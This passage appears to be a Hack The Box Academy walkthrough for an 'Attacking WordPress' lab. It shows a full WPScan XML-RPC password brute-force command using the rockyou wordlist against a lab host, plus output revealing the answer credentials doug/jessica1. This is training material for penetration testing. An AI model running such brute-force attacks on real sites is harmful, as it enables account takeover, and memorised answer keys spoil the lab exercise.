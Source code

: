 The other user aside from admin is `doug`.

Answer: `doug`

# Attacking WordPress

## Question 2

### "Perform a login bruteforcing attack against the discovered user. Submit the user's password as the answer."

As per the previous question, students know that the other user is `doug`. Thus, they need to bruteforce this user's password with `WPScan`:

Code: shell

```shell
wpscan --password-attack xmlrpc -t 20 -U doug -P /usr/share/wordlists/rockyou.txt --url blog.inlanefreight.local
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ wpscan --password-attack xmlrpc -t 20 -U doug -P /usr/share/wordlists/rockyou.txt --url blog.inlanefreight.local

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _\` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.21
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - doug / jessica1                                                                                                                                   
Trying doug / cheyenne Time: 00:00:10 <> (660 / 14345052)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: doug, Password: jessica1
```

From the output of `WPScan`, students will know that the password of the user `doug` is `jessica1`.
